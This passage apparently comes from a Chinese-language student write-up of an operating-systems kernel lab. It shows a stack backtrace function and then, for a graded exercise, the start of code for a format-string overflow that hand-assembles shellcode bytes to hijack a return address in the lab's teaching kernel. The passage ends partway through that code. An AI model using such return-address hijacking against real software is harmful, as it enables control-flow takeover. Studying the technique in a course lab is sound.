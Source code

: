     <code>int
    mon_backtrace(int argc, char **argv, struct Trapframe *tf)
    {
        // Your code here.
        uint32_t *ebp = (uint32_t*) read_ebp();
        struct Eipdebuginfo eip_info;
        cprintf("Stack backtrace:\n");
        while(ebp != 0x0) {
            cprintf(" ebp %08x eip %08x args %08x %08x %08x %08x %08x\n",
                ebp, ebp[1], ebp[2], ebp[3], ebp[4], ebp[5], ebp[6]);
            debuginfo_eip(ebp[1], &eip_info);
            cprintf("%s:%d: %.*s+%d\n",
                    eip_info.eip_file,
                    eip_info.eip_line,
                    eip_info.eip_fn_namelen,
                    eip_info.eip_fn_name,
                    ebp[1]-eip_info.eip_fn_addr);
            ebp = (uint32_t*) ebp[0];
        }
    
        overflow_me();
        cprintf("Backtrace success\n");
        return 0;
    }
    </code>


从inc/x86.h下的read_ebp()函数获得ebp，然后根据ebp地址可以从栈里依次获得eip以及args。再通过Eipdebuginfo结构体获取执行指令的信息。完成backtrace功能。


#### Exercise 14:


Recall the buffer overflow attack that you have learned in the ICS course. (See more details in http://en.wikipedia.org/wiki/Buffer_overflow). Modify your start_overflow function to use a technique similar to the buffer overflow to invoke the do_overflow function. You must use the above cprintf function with the %n specifier you augmented in "Exercise 9" to do this job, or else you won't get the points of this exercise, and the do_overflow function should return normally.

基于printf的格式化字符串攻击，能够将EIP返回地址的指针指向我们想要执行的代码片段。具体代码如下：

    
    <code>void
    start_overflow(void)
    {
        char str[256] = {};
        int nstr = 0;
        char *pret_addr;
        char exec[11];
    
        int* eip_ptr = (int*)read_pretaddr();
        int eip_addr = *eip_ptr;
        cprintf("%#x\n", eip_addr);
        int of_addr = (int) do_overflow;
        //cprintf("%#x\n", of_addr);
        //cprintf("%#x\n", (int*)exec);
        exec[0] = 0x68;
        exec[1] = (char)eip_addr;
        exec[2] = (char)(eip_addr >> 8);
        exec[3] = (char)(eip_addr >> 16);
        exec[4] = (char)(eip_addr >> 24);
        exec[5] = 0x68;
        exec[6] = (char)of_addr;
        exec[7] = (char)(of_addr >> 8);
        exec[8] = (char)(of_addr >> 16);
        exec[9] = (char)(of_addr >> 24);
        exec[10] = 0xc3;
